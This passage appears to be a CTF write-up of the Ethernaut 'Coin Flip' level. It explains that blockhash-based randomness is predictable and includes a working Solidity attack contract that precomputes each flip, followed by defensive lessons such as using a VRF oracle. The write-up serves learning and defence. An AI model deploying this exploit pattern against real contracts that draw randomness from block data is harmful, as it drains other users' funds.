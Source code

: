 ## 03. Coin Flip ✅ [Medium]

This level tests blockchain random number issues:
- On-chain random numbers can be predicted
- Block information like `block.number` is public
- Attacker can copy calculation logic in same block

Attack steps:
1. Deploy attack contract copying game contract's calculation logic
2. Manually call `attackCoin()` ten times (wait for new block each time)
3. Confirm victory count reaches 10

> Note: Cannot continuously call `attackCoin()` ten times in a loop, as each guess needs to be in different blocks. Multiple calls in same block would use same `blockhash`, leading to same prediction results.

Attack contract code:
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.20;

interface ICoinFlip {
    function flip(bool _guess) external returns (bool);
}

contract attack {
    ICoinFlip public targetContract;
    uint256 constant FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;

    constructor(address _targetAddress) {
        targetContract = ICoinFlip(_targetAddress);
    }

    function attackCoin() public {
        uint256 blockValue = uint256(blockhash(block.number - 1));
        uint256 coinFlip = blockValue / FACTOR;
        bool side = coinFlip == 1 ? true : false;

        targetContract.flip(side);
    }
}
```

Key learnings:
- Limitations of on-chain random numbers
- Should not use block information as random source
- Can use oracles like Chainlink VRF for true randomness
- Understanding blockchain temporality, each block's information is unique

## 04. Telephone ✅ [Easy]
